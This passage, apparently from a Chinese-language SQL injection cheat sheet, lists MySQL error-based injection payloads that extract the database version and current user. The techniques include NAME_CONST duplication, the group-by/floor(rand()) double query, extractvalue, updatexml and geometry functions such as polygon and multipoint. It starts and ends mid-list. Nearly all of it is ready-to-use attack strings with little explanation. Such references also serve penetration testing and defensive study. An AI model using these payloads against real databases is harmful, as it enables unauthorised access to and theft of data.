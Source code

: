 ```http
and+1=(select+*+from+(select+NAME_CONST(version(),1),NAME_CONST(version(),1))+as+x)--
```

### 5、[Error based Double Query Injection ](http://www.vaibs.in/error-based-double-query-injection/)

**数据库版本**

```http
or+1+group+by+concat_ws(0x7e,version(),floor(rand(0)*2))+having+min(0)+or+1
```

还有一些报错语句

#### 1.floor()

```http
select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);
```

#### 2.extractvalue()

```http
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
```

#### 3.updatexml()

```http
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
```

#### 4.geometrycollection()

```http
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
```

#### 5.multipoint()

```http
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
```

#### 6.polygon()

```http
select * from test where id=1 and polygon((select * from(select * from(select user())a)b));
```

#### 7.multipolygon()

```http
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
```

#### 8.linestring()
